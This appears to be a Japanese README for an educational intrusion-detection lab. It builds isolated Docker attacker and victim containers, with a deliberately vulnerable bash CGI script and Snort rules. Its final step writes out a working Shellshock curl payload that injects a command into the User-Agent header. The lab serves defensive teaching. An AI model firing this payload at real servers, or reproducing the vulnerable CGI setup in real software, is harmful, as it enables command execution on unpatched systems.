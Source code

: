 # IDS-Education

## 概要
初学者に向けた簡易的かつ安全なIDS教育環境の構築を可能とする
### 特徴
- WSLを用いており、軽量なsnortによるIDS実験環境である
- 攻撃/被攻撃環境は互い以外の通信を完全に遮断されており、外部への攻撃危険性, 外部からの攻撃危険性が低い
- metasploitを用いた実践的な攻撃の演習、検知実験も可能
- Doclerfileの追記および変更やルールファイルの変更による自由度も高い

## ファイル
### shellshock-lab.tat.gz
#### snort-dockerフォルダの構成
```
snort-docker
├── Dockerfile
├── local.rules
└── snort.conf 
```
#### 内容
- Dockerfile: Dockerを起動するためのファイル。起動時にsnortをインストールする
- local.rules: あらかじめTCP通信,およびshellshockによる攻撃をそれぞれ検知するよう設定されたルールファイル。起動時にsnortのrulesフォルダにコピーされる
- snort.conf: 簡易的なsnortの設定が記述されている
#### shellshockフォルダの構成
```
shellshock
├── attacker
│   └── Dockerfile
├── victim
│   ├── Dockerfile
│   └── cgi-bin
│       └── vulnerable.sh
└── docker-compose.yml
```
#### 内容
- attacker: attacker-msfを起動するDockerfileを格納
    - Dockerfile: 起動時にmetasploitやcurlをインストールする
- victim: victim-shellshockを起動するDockerfile等を格納
    - Dockerfile: 起動時にpython3, bash-4.3をインストールする
    - cgi-bin: cgiスクリプトを格納
        - vulnerable.sh: 脆弱なbashを用いてコマンドを実行
- docker-compose.yml: attacker, victimの二つのコンテナのビルド、連携を定義

## 構築手法
1. WindowsにWSLをインストール
2. Githubからshellshock-lab.tar.gzをダウンロード(Downloadsフォルダにダウンロードしたと仮定)
3. WSLにDockerをインストール
4. tarファイルを解凍 \
    例(WSL内のbash)
    - `cd ~/`
    - `tar -xzvf /mnt/c/Users/[ユーザー名]/Downloads/shellshock-lab.tar.gz`
5. attack/victimを起動 \
    例(WSL内のbash)
    - `cd ~/shellshock`
    - `docker-compose build`
    - `docker-compose up -d`
6. snort-dockerフォルダのDockerfile内、監視するブリッジ名を自分の環境に合わせて変更\
    例(WSL内のbash)
    - (新しいWSLウィンドウを開く)
    - `cd ~/snort-docker`
    - `ip a` (br-...という名前のインターフェース名をコピー)
    - `nano Dockerfile`
        - 最終行、CMD内の"br-..."をコピーしたものに変更
    - `docker build -t monitor-snort .`
    - `docker run -it --rm --network=host --cap-add=NET_ADMIN --cap-add=NET_RAW monitor-snort`
7. 攻撃コンテナの中に入る、攻撃を行う \
    例(snortではないの方のWSL内bash)
    - `docker exec -it attacker-msf /bin/bash`
    - (攻撃コンテナの中に入り、bashが起動)
    - `curl -A '() { :;}; echo vulnerable > /tmp/shellshock.txt' http://victim:8000/cgi-bin/vulnerable.sh`
    - (victim内にshellshock.txtが作成され、snortを起動したウィンドウにはTCP packet detected, shellshock deteted のアラートがそれぞれ表示される)
    - `exit`(攻撃コンテナから出てWSLに戻る)
    - `docker exec -it victim-shellshock /bin/bash`
    - (被攻撃コンテナの中に入る)
    - `cat /tmp/shellshock.txt`(vulnerableと出力されればcurlによりファイルが生成されている=攻撃が成功している)